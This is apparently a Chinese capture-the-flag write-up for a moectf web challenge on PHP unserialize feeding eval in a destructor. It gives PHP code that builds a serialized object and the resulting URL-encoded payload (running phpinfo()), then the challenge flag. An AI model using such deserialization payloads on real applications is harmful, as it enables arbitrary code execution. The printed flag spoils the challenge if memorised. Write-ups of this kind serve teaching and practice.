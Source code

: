 # Web-17｜第十七章 星骸迷阵·神念重构

## 碎碎念

PHP 反序列化+eval 代码执行漏洞
***
## Writeup

观察代码，可以看到主要意思是传入参数 a，将会反序列化它为一个 class，析构函数会调用 eval，因此我们只要控制这个对象的 a 成员为一个 php 代码，就可以实现任意代码执行，先构造序列化字符串：

```php
<?php
class A {
    public $a;
}
$o = new A();
$o->a = 'phpinfo();';
echo urlencode(serialize($o));
?>
```

得到结果：`O%3A1%3A%22A%22%3A1%3A%7Bs%3A1%3A%22a%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D`

直接传入 a 参数搜索得到 flag：

![](../../../../assets/Pasted%20image%2020251029165845.png)

最终 flag：`moectf{664e2fd7-aa8a-ed75-6246-e87fac727bc3}`